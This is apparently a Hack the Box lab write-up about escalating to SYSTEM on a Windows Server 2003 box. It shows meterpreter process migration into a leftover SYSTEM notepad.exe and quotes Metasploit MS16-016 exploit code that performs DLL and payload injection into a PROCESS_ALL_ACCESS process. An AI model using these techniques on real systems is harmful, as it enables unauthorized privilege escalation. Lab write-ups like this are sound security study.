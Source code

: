 ```yaml
---
layout: post
title:  "Process All Access"
subtitle: "Hack the Box"
date:   2017-07-24 00:00:00
author: "coastal"
header-img: "images/htb/process-all-access/header.jpg"
---
```


Recently, I was working on privilege escalation from inside a Windows Server 2003 box. While I was enumerating the box, I took a look at the running processes and saw some interesting things.

```
>ps
PID   PPID  Name          Arch  Ses  User                Path
---   ----  ----          ----  ---  ----                ----
[...snip...]


2356  3312  cmd.exe        x86   0   IIS APPPOOL\Web     C:\Windows\system32\cmd.exe
2384  2784  notepad.exe    x86   0   NT AUTHORITY\SYSTEM C:\Windows\system32\notepad.exe
2732  1788  notepad.exe    x86   0   IIS APPPOOL\Web     C:\Windows\system32\notepad.exe
3312  1476  w3wp.exe       x86   0   IIS APPPOOL\Web     c:\windows\system32\inetsrv\w3wp.exe
```

We notice some curious processes for a remote server, specifically ```notepad.exe``` running as ```NT AUTHORITY\SYSTEM```. Now anyone familiar with meterpreter knows that ```notepad.exe``` is a favorite process to spin up as a host for the meterpreter session. Given the ```SYSTEM``` level access, it is likely that another hackthebox user has performed successful exploitation and is enjoying their new privileges. Just as a bit of a joke, I decided to try to receive some ill-gotten gains:

```
meterpreter > migrate 2384
[*] Migrating from 3312 to 2384...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Wait, whoops. I seem to have gotten myself ```SYSTEM``` without any of the heavy lifting! Congrats, right!

Well I decided that wasn't exactly sporting and ditched my shell. After I successfully performed the privilege escalation and got a proper ```SYSTEM```, I had to figure out why I had been able to own the box via ```migrate```. As I guessed (correctly) that the other user had performed priv esc via the same methodology, I checked the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_016_webdav.rb) of the exploit to see what was going on with the ```notepad.exe``` spawn.

```
print_status("Launching notepad to host the exploit...")
  notepad_process_pid = cmd_exec_get_pid("notepad.exe")
  begin
    process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
    print_good("Process #{process.pid} launched.")
  rescue Rex::Post::Meterpreter::RequestError
    print_error("Operation failed. Hosting exploit in the current process...")
    process = client.sys.process.open
end
```

So we try to spawn a new ```notepad.exe``` process that will host the exploit. If we are unable to spawn a new process, we use the current running process as the host. Offloading the escalation to a new ```notepad.exe``` is more stealthy than escalating the currently running process. As the running process ```w3wp.exe``` is an IIS worker process that handles requests sent to the IIS application pool, if our exploit crashes the process would die and most likely be noticed immediately by even an inattentive sysadmin. However, if a newly spawned ```notepad.exe``` process dies, it makes much less noise and doesn't impede application function.

The line of code in this section relevant to the strange behavior that we observed is:

```
process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
```

The notepad process is spawned with ```PROCESS_ALL_ACCESS``` designation. In the Windows Documentation on [Process Security and Access Rights](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx), we can see that this flag, when passed to ```CreateProcess``` gives the new process object all possible access rights. This means that the any processes running on the system can use the new process to create new processes and threads, duplicate its handle, query information about the process such as tokens and access codes, set information about the process, read and write to its memory, perform an operation on its address space, and do basically whatever it likes with the new process.

Assuming we are successful in our process creation, we next load the exploit ```.dll``` into the process 

```
print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
library_path = ::File.join(Msf::Config.data_directory, "exploits", "cve-2016-0051", "cve-2016-0051.x86.dll")
library_path = ::File.expand_path(library_path)
exploit_mem, offset = inject_dll_into_process(process, library_path)
print_status("Exploit injected ... injecting payload into #{process.pid}...")
payload_mem = inject_into_process(process, payload.encoded)
thread = process.thread.create(exploit_mem + offset, payload_mem)
sleep(3)
print_status("Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.")
```

As we can see, the lenient access rights on the process is what allows us to inject the exploit ```.dll``` and payload without complications, and execute the payload with ```SYSTEM``` privileges. 

Interestingly enough, it doesn't look like the exploit migrates the meterpreter session to the newly escalated ```notepad.exe``` process. Looking at the output of ```ps```, the ```notepad.exe``` process is not killed after exploitation. While we could set our payload to a reverse shell and catch our new ```SYSTEM``` privileges, we could also perform the exploit without any payload and migrate meterpreter into the elevated ```PROCESS_ALL_ACCESS``` process like we did earlier albeit accidentally. I decided to perform the priv esc that way and got myself a ```SYSTEM``` shell, but this time I earned it.

-coastal

---

### Resources

[Process Security and Access Rights](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx)

[w3wp.exe](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities)

[w3wp.exe](https://stackoverflow.com/questions/7822898/what-is-w3wp-exe)














